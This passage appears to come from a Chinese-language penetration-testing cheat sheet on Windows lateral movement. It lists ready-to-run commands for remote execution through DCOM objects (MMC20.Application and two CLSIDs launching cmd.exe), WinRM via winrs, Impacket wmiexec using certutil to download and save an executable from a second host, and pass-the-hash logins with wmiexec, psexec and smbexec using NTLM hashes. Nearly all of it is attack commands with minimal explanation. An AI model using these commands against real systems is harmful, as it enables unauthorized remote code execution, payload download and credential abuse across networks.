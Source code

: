 ```
方法一
$com  = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","1.1.1.1"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c  calc.exe","Minimized")

方法二
$com  = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"1.1.1.1")
$obj  = [System.Activator]::CreateInstance($com)
$item  = $obj.item()$item.Document.Application.ShellExecute("cmd.exe","/c  calc.exe","c:\windows\system32",$null,0)

方法三
$com  = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"1.1.1.1")
$obj  = [System.Activator]::CreateInstance($com)
$obj.Document.Application.ShellExecute("cmd.exe","/c  calc.exe","c:\windows\system32",$null,0) 
```
### 9、WINRM

```
利用条件
1、在win 2012之后(包括win 2012)的版本是默认开启的，win 2012之前利用需要手动开启winRM。
2、防火墙对5986、5985端口开放。

winrs -r:http://1.1.1.1:5985  -u:Administrator -p:password  "whoami"winrs  -r:http://dcserver.jumbolab.com:5985 -u:jumbolab\administrator -p:password  "whoami "
```
### 10、wmiexec

```
1、执行命令：
python wmiexec.py ./:@192.168.52.136 "cmd.exe /c certutil -urlcache -split -f   http://192.168.52.137:8090/wmi.exe C:\wmi.exe"
2、用hash的方式：
python wmiexec.py -hashes :36ec9d73422e1bf53b84fdb16a8e4198 ./qaxnb@192.168.52.136 "whoami"
第三方软件 (交互式&单执行)，容易被杀
```

## 5.2、PTH

当我们没有明文账号密码，只有hash时，可以尝试hash传递。

### **5.2.1 impacket套件**

项目地址：https://github.com/SecureAuthCorp/impacket
```
python  wmiexec.py -hashes  aad3b435b51404eeaad3b435b51404ee:518b98ad4178a53695dc997aa02d455c  domain/administrator@1.1.1.1 "whoami"
psexec.exe  -hashes aad3b435b51404eeaad3b435b51404ee:518B98AD4178A53695DC997AA02D455C  domiain/administrator@1.1.1.1 "whoami" 
smbexec.exe  -hashes aad3b435b51404eeaad3b435b51404ee:CCEF208C6485269C20DB2CAD21734FE7  domiain/administrator@1.1.1.1 "whoami"
```
